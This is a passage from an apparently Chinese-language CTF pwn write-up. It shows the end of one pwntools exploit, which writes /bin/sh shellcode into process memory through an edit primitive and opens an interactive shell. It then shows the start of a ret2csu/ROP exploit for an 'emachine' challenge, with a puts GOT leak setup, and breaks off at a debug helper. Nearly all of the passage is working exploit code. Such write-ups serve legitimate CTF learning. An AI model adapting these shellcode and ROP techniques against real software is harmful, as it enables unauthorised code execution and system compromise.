 ```python

sc2 = asm(movrbx)[0:8]
sc2 += "\xC7\x03\x6A\x42\x58\xFE\x90\x90"
sc2 += "\xC7\x43\x04\xC4\x48\x99\x52\x90"
sc2 += "\xC7\x43\x08\x48\xBF\x2F\x62\x90"
sc2 += "\xC7\x43\x0C\x69\x6E\x2F\x2F\x90"
sc2 += "\xC7\x43\x10\x73\x68\x57\x54\x90"
sc2 += "\xC7\x43\x14\x5E\x49\x89\xD0\x90"
sc2 += "\xC7\x43\x18\x49\x89\xD2\x0F\x90"
sc2 += "\xC7\x43\x1C\x05\x00\x00\x00\x90"
sc2 += "\xFF\xE3\x90"
#print asm(sc)
print asm(movrbx)[0:8]
success('codebase : '+hex(codebase))
success('target : '+hex(targetaddr))
#edit(-1,p64(targetaddr))
xx=0
for x in range(len(sc2)/8+1):
	edit(xx,sc2[x*8:x*8+8])
	xx += 2
edit(-1,p64(targetaddr))
#debug()
buy()
io.interactive()
```



## emachine

ret2csu

m00yy给写了一个解密过程，后面才发现用不到(Orz)



exp:

```python
#!/usr/bin/env python
# -*- coding=utf8 -*-
"""
# Author: le3d1ng
# Created Time : 2019年06月01日 星期六 10时21分36秒
# File Name: exp.py
# Description:
"""
from pwn import *

io = process('./pwn')
#io = remote('172.29.21.119', 9999)
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.log_level = 'debug'
context.terminal = ['terminator' , '-x' , 'sh' , '-c']


pad = 88
poprdi = 0x0000000000400c83
putsgot = elf.got['puts']
putsplt = elf.plt['puts']
pmain = 0x400B28
#leakpad = 0x70

def debug():
	gdb.attach(io)
```